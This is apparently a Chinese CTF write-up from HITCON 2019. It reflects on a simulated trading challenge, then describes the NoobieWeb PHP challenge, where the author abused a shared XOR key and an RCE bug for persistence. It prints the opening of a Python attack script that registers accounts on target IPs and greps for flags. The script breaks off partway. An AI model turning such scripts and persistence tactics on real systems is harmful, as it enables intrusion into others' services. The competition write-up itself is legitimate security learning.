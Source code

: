 比赛结束，回过头来反思一下整个market的比赛。

- **杀猪盘永远是最赚钱的。**我们最后拥有大概800多w的金额，主要的资金还是靠一开始的割韭菜积累的。
- **大量资产会帮助你，也会束缚你。**后续，两个量化脚本之所以没有赚到很多钱。是因为我总担心这个代码存在一些bug，导致被别人割韭菜。所以就束手束脚，运行了没几轮以后，就下线了（因为得赶着做其他题目，没办法盯着脚本）。现在回过头来想，当时应该可以考虑设置一些预警、边界，然后整体运行起来。这两个量化策略本质上对于市场是有效的。
- **没有模拟回测下的量化策略太难了。**整个市场与真实市场区别还是很大，一则看不到交易深度，二则没办法撤单，导致很多策略没办法实现。而且会干扰到脚本处理逻辑。
- **要深入理解，思考市场的本质。**如果理性分析，就能大概率推测出，整个大盘肯定是会暴涨的。因为选手一开始只有金钱，没有币。那么选手很难进行砸盘，只能爆啦。而且，随着各类散户的进场，市场的泡沫肯定会上升。因此，可以看到，整个币价在两天是依次上升的。

----

## NoobieWeb

> 题目环境：[NoobieWeb](https://github.com/m0xiaoxi/CTF_Web_docker/tree/master/HITCON2019/noobieweb)

![noobie_bank](https://momomoxiaoxi.com/img/post/HITCON2019/noobie_bank.png)

这个题目是一个传统的PHP题目。我们可以通过预加载的方式，加载一个waf.php，用来进行防御。不过，值得注意的一点是，waf.php有长度限制，大约只能写10来行。另外，选手并没有服务器的权限，运维理论上只能靠waf.php。

这个题目有一些非常明显的漏洞，就不再多说了。我们主要打了两个洞。一个洞比较难修，一个洞可以RCE，方便我们后渗透做权限维持。

第一个洞，是购买一个股票后，会生成一个加密的文件。它用的`StrongSecretKeyForDeveloping >.^`进行xor加密的。因为大家的密钥都是一样的，因此就都能解开。

攻击脚本如下:

```python
from framework.http import http
from framework.config import *
from framework.function import *
from urllib import quote
import traceback
import requests
import re, random, string

session = requests.Session()


def filter_flag(string):
    p = re.compile(r'[0-9a-z\-]{36}')
    # p = re.compile(r'hctf\{.*\}')
    r = p.findall(string)
    return r[0]


def register(ip, username, password, hash_algo='sha1'):
    paramsGet = {"op": "register", "action": "user"}
    paramsPost = {"hash_algo": hash_algo, "password": password, "submit": "Register", "username": username}
    headers = {"Origin": "https://10.0.10.5",
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3",
               "Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1",
               "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.80 Safari/537.36",
               "Referer": "https://10.0.10.5/?action=user&op=register", "Connection": "close",
               "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8",
               "Content-Type": "application/x-www-form-urlencoded"}
    response = session.post("https://{}/".format(ip), data=paramsPost, params=paramsGet, headers=headers)

    # print("Status code:   %i" % response.status_code)
    # print("Response body: %s" % response.content)
    if 'Register failed' in response.content:
        print('Register failed:{}'.format(username))
        return False
```